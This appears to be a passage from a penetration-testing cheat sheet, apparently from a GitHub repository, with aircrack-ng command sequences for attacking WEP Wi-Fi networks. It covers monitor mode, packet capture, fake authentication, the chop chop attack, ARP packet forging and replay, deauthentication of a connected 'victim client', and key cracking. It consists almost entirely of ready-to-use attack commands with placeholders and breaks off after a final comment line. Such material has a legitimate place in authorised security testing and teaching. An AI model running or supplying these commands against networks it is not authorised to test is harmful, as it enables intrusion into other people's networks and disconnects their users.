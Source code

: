 #### Chop Chop Attack

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# Chop chop attack
aireplay-ng -4 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# Forging ARP packet with the xor packet from chop chop attack 
packetforge-ng -0 -a <BSSID> -h <YOUR_MAC> -k 255.255.255.255 -l 255.255.255.255 -y <CHOP_CHOP_PACKET>.xor -w <ARP_PACKET_NAME>

# Interactive packet replay attack with the forge ARP packet
aireplay-ng -2 -r <ARP_PACKET_NAME> <INTERFACE>

# Crack 
aircrack-ng <CAPTURE_NAME>
```

### Bypassing WEP Shared Key Authentication

Shared key authentication, requires that the station and AP both have the same WEP key in order to authenticate. If you try to run a fake authentication attack against a WEP network using shared authentication, you will receive an error from Aireplay. The AUTH column will not display SKA until a wireless client authenticates to the network so when you first start sniffing a network, you may not realize it is using shared key authentication until you attempt to run the fake authentication attack against it.

We will run a deauthentication attack against our connected victim client, you can also use the PRGA XOR file obtained via a chopchop or fragmentation attack but it is far faster and easier to deauthenticate a connected client.

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack (It should failed)
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# Deauthentication attack (If there is a client)
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# Fake shared key authentication using the XOR keystream
aireplay-ng -1 60 -e <ESSID> -y wepshared-<NAME>.xor -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# ARP replay attack
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# Deauthentication attack (If there is a client)
```
